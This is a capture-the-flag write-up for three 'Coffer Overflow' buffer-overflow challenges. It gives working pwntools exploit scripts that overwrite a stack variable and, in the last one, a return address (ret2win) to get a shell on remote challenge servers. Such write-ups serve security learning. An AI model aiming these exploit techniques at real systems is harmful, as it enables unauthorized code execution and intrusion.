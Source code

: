 # Coffer Overflow

## Coffer Overflow 0

Read source, there's a code var.

It's set to 0. At the end, if it's not 0, a shell is popped.

Pretty simple chall, just spam chars and a shell pops, cat flag.txt

## Coffer Overflow 1

Same thing, except code must be 0xcafebabe.

Let's disassemble main, we'll find the difference between our input\(rbp-0x20\) and the var\(rbp-0x8\) is 24 bytes, so send 24 bytes + p64\(0xcafebabe\)

```python
from pwn import *
#p = process("./over0")
p = remote('2020.redpwnc.tf', 31255)
NUM_TO_VAR = 24
payload = b'A' * NUM_TO_VAR + p64(0xcafebabe)
p.sendline(payload)
p.interactive()
```

## Coffer Overflow 2

ret2win exploit. There's a function called binFunction.

Our input is at rbp-0x10, so 0x10 + 8 bytes until return address.

Overwrite return address with address of binFunction, which pops a shell.

```python
from pwn import *
e = ELF("./over2")
NUM_TO_RET = 0x10 + 8
padding = b'A' * NUM_TO_RET
retgadget =  0x000000000040053e # ret
payload = flat(padding, retgadget, e.symbols['binFunction'], word_size=64)
#p = e.process()
p = remote('2020.redpwnc.tf', 31908)
p.sendline(payload)
p.interactive()
```

